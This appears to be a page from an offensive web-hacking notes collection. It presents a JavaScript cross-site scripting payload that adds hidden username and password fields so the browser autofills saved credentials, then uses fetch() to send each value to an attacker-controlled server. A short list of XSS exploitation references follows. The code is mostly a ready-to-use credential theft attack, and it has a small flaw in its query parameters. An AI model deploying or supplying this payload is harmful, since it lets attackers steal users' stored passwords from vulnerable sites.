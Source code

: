 # Harvest Autofill Credentials

```js
let body = document.querySelector('body');

// Fetch the credentials from input attributes
let username = document.createElement('input');
username.type = "text";
username.name = "username";
username.style.position = "fixed";

let password = document.createElement('input');
password.type = "password";
password.name = "password";
password.style.position = "fixed";

// Append element attributes
body.append(username);
body.append(password);

// Track values with event handlers
username.addEventListener('change', sendUsername);
password.addEventListener('change', sendPassword);

// Sending credentials to the attacker's server
function sendUsername() {
	fetch(`http[s]://<IP>/creds?=username=${username.value}`);
}

function sendPassword() {
	fetch(`http[s]://<IP>/creds?=username=${password.value}`);
}
```

---
## References

- [IMVK: Cross Site Scripting – Exploitation ](https://imvk.net/en/infosec/ethical-web-hacking/cross-site-scripting-exploitation)

- [ancat: Stealing From Password Managers with XSS](https://ancat.github.io/xss/2017/01/08/stealing-plaintext-passwords.html)

- [XSS-Autofil](https://github.com/davidgilbertson/xss-autofil/blob/master/public/xss.js)